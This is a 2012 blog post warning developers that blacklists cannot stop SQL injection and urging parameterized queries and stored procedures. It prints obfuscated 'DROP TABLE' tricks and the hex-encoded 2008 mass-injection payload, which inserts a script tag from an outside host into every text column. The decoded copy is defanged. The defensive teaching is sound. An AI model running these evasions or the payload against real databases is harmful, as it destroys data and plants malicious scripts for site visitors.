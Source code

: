 ```yaml
---
title: Please don’t use blacklists, use parameterized queries or stored procs instead
author: SQLDenis
type: post
date: 2012-04-05T10:55:00+00:00
ID: 1587
excerpt: "Every now and then you will hear how some site will use a blacklist to 'protect' themselves against sql injection. Using a blacklist is very foolish because you can't ever think of all the different ways that the bad guys will try to bypass your little&hellip;"
url: /index.php/datamgmt/datadesign/please-don-t-use-blacklists/
views:
  - 13977
rp4wp_auto_linked:
  - 1
categories:
  - Data Modelling and Design
  - Database Programming
  - IBM DB2
  - Microsoft SQL Server
  - MySQL
tags:
  - best practices
  - security
  - sql injection

---
```

Every now and then you will hear how some site will use a blacklist to &#8216;protect&#8217; themselves against sql injection. Using a blacklist is very foolish because you can&#8217;t ever think of all the different ways that the bad guys will try to bypass your little list.
  
Let&#8217;s say you have DROP and DROP TABLE in your list.

What about these two

sql
PRINT REVERSE('tset ELBAT PORD')
PRINT convert(VARCHAR(100),0x44524F50205441424C4520746573740000000000)
```

Change PRINT to EXEC() and both will result in DROP TABLE Test

Remember this one?

sql
DECLARE @S VARCHAR(4000);SET @S=CAST(0x4445434C415245204054205641524348415228323535292C40432056415243484152283235
3529204445434C415245205461626C655F437572736F7220435552534F5220464F522053454C45435420
612E6E616D652C622E6E616D652046524F4D207379736F626A6563747320612C737973636F6C756D6E73
206220574845524520612E69643D622E696420414E4420612E78747970653D27752720414E442028622E
78747970653D3939204F5220622E78747970653D3335204F5220622E78747970653D323331204F522062
2E78747970653D31363729204F50454E205461626C655F437572736F72204645544348204E4558542046
524F4D205461626C655F437572736F7220494E544F2040542C4043205748494C4528404046455443485F
5354415455533D302920424547494E20455845432827555044415445205B272B40542B275D2053455420
5B272B40432B275D3D525452494D28434F4E5645525428564152434841522834303030292C5B272B4043
2B275D29292B27273C736372697074207372633D687474703A2F2F7777772E63686B626E722E636F6D2F
622E6A733E3C2F7363726970743E27272729204645544348204E4558542046524F4D205461626C655F43
7572736F7220494E544F2040542C404320454E4420434C4F5345205461626C655F437572736F72204445
414C4C4F43415445205461626C655F437572736F7220 AS VARCHAR(4000));print @S;
```

That becomes this

sql
DECLARE @T VARCHAR(255),@C VARCHAR(255) 
DECLARE Table_Cursor CURSOR FOR SELECT a.name,b.name 
FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) 
OPEN Table_Cursor 
	FETCH NEXT FROM Table_Cursor INTO @T,@C 
	WHILE(@@FETCH_STATUS=0) 
	BEGIN 
--I changed EXEC to PRINT, just in case you are foolish enough to run this
		PRINT('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''<script src=http://SomeFakeSite></script>''') 
		FETCH NEXT FROM Table_Cursor INTO @T,@C 
	END 
CLOSE Table_Cursor DEALLOCATE Table_Cursor 
```

That infected millions of pages in 2008, there are still variants of this one today. A blacklist won&#8217;t help you in this case.

You can also protect yourself against this attack by denying SELECT permissions on the sysobjects table, your website user should not have access to these tables in general. If you use stored procedures you can just give access to the stored procedures and nothing else.

Every web framework today offers a way to use parameterized queries and or stored procedures. There is really no excuse to fall victim to a SQL injection attack these days. 

Even using an ORM like Hibernate or Entity Framework is protected against SQL Injection because it use sp_executesql with proper parameters behind the scenes.

If you do use stored procedures, you might still have a problem if you are using dynamic SQL inside the proc with EXEC and concatenation instead of sp_executesql with proper parameters

So why do people start out by using code that is prone to SQL injection? I think there are two parts to this. 

  1. It is easier to debug and see what is contained in the string by doing a debug.write/response.write now you can see exactly what is being sent to the DB
  2. There are still books/online examples around that show code that concatenate user input with SQL

Whenever I see code like this when a person asks for help, I immediately tell that person his code is vulnerable to a SQL injection attack, it is my duty to alert this person, it is yours too, we need to educate these people